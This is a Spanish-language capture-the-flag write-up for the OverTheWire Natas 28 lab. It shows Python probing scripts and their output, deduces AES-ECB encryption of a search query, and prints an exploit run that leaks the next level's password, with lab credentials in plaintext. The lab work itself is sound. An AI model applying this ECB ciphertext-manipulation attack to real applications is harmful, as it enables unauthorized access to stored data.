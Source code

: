 # Natas 28

#### URL: http://natas28.natas.labs.overthewire.org
#### Credenciales: natas28:1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj

Cuando introducimos cualquier cosa vemos que la peticion POST se tranforma en un GET con un parametro "query" cifrado:

![2025-03-21-114416_822x355_scrot](https://github.com/user-attachments/assets/8974c9ed-e481-4fd2-afca-b8a36cd11234)

![2025-03-21-114450_955x52_scrot](https://github.com/user-attachments/assets/38ff6e4e-0d21-49ba-93e5-d850d70ed542)

![2025-03-21-115134_1366x476_scrot](https://github.com/user-attachments/assets/cf796ae4-d30f-43e7-82e2-19d0f2fe6a5d)

Usan PKCS#7 para el padding:

![2025-03-21-115352_891x300_scrot](https://github.com/user-attachments/assets/0fdc3fe8-1b3e-4ad1-b87f-273768203031)


Creamos un pequeño script para realizar peticiones y observar la query:
``` python
import requests
from base64 import b64encode


URL='http://natas28.natas.labs.overthewire.org'
headers={'Authorization':f'Basic {b64encode(b"natas28:1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj").decode()}'}

for i in range(1,34):
    data={'query':'A'*i}
    x = requests.post(URL,headers=headers,data=data)
    print(f"QUERY: {x.url.split("=")[1]}")
```

``` bash
 python3 test.py
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKjd8MKDZZIiKG51FNeoPjUvfoQVOxoUVz5bypVRFkZR5BPSyq%2FLC12hqpypTFRyXA%3D
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKYsNYgsg1hFJebd%2BJNix06SHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc%3D
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPJ8EmoxKU1njKubmw7%2BRDt1mi4rXbbzHxmhT3Vnjq2qkEJJuT5N6gkJR5mVucRLNRo%3D
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPK02918sQNUadassvlSAHDHKSh%2FPMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY%3D
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPJLk0xdEarIh%2BMvTkV61TlvrDuHHBxEg4a0XNNtno9y9GVRSbu6ISPYnZVBfqJ%2FOns%3D
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPJ%2BDZedSJQqwrZX9tfUGM7WQcCYxLrNxe2TV1ZOUQXdfmTQ3MhoJTaSrfy9N5bRv4o%3D
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKvwmKMYUAmbbaAruK1epuIZIaVSupG%2B5Ppq4WEW09L0Nf%2FK3JUU%2FwpRwHlH118D44%3D
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPLNQ6RxZsY7UPRe5yiycfUiiW3pCIT4YQixZ%2Fi0rqXXY5FyMgUUg%2BaORY%2FQZhZ7MKM%3D
QUERY: G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKIFsYeK8Y3JmD4ecRfI3d%2BoJUi8wHPnTascCPxZZSMWpc5zZBSL6eob5V3O1b5%2BMA%3D
```

Podemos ver que se repite un patron, asumimos que la query esta compuesta por PREFIJO + DATA + SUFIJO + PADDING y que presumiblemente estan usando AES-ECB porque es en el modo de operacion ECB en el que bloques iguales obtienen el mismo cifrado para la misma clave.

Hacemos un script para encontrar el tamaño de bloque del cifrado:
``` python
import requests
from base64 import b64encode, b64decode
from urllib.parse import unquote


URL='http://natas28.natas.labs.overthewire.org'
headers={'Authorization':f'Basic {b64encode(b"natas28:1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj").decode()}'}

for i in range(1,50):
    data={'query':'A'*i}
    x=requests.post(URL,headers=headers,data=data)
    encryptedData=x.url.split("?")[1].split("=")[1]
    rawData = b64decode(unquote(encryptedData))
    print(f"Encrypted data Length:[{len(rawData)}] Query Length:[{len(data['query'])}]")
```

```
python3 test.py
Encrypted data Length:[80] Query Length:[1]
Encrypted data Length:[80] Query Length:[2]
Encrypted data Length:[80] Query Length:[3]
Encrypted data Length:[80] Query Length:[4]
Encrypted data Length:[80] Query Length:[5]
Encrypted data Length:[80] Query Length:[6]
Encrypted data Length:[80] Query Length:[7]
Encrypted data Length:[80] Query Length:[8]
Encrypted data Length:[80] Query Length:[9]
Encrypted data Length:[80] Query Length:[10]
Encrypted data Length:[80] Query Length:[11]
Encrypted data Length:[80] Query Length:[12]
Encrypted data Length:[96] Query Length:[13]
Encrypted data Length:[96] Query Length:[14]
Encrypted data Length:[96] Query Length:[15]
Encrypted data Length:[96] Query Length:[16]
Encrypted data Length:[96] Query Length:[17]
Encrypted data Length:[96] Query Length:[18]
Encrypted data Length:[96] Query Length:[19]
Encrypted data Length:[96] Query Length:[20]
Encrypted data Length:[96] Query Length:[21]
Encrypted data Length:[96] Query Length:[22]
Encrypted data Length:[96] Query Length:[23]
Encrypted data Length:[96] Query Length:[24]
Encrypted data Length:[96] Query Length:[25]
Encrypted data Length:[96] Query Length:[26]
Encrypted data Length:[96] Query Length:[27]
Encrypted data Length:[96] Query Length:[28]
Encrypted data Length:[112] Query Length:[29]
Encrypted data Length:[112] Query Length:[30]
```

Como se observa el tamaño de bloque es 16, porque al pasar de 12 a 13 y de 28 a 29 los datos encriptados aumentan en 16 bytes. El prefijo parece ser de 32 bytes o 2 bloques.



``` bash
python3 natas28_sploit.py
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas28", "pass": "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj" };</script></head>
<body>
<!-- morla/10111 -->
<h1>natas28</h1>
<style>
ul {
  margin: 1em 0;
  padding: 0 0 0 40px;
}

li {
  margin: 1em 0;
}
</style>
<div id="content">
<h2> Whack Computer Joke Database</h2><ul><li>31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns</li></ul>
</div>
</body>
</html>

http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPLAhy3ui8kLEVaROwiiI6OeWnPci/qKte0ohRTkObF%2BT5ujPcGtKfnu/mSL/syLoz1W9Y2gUEVDr09KHPcw89z2vfoQVOxoUVz5bypVRFkZR5BPSyq/LC12hqpypTFRyXA%3D
```
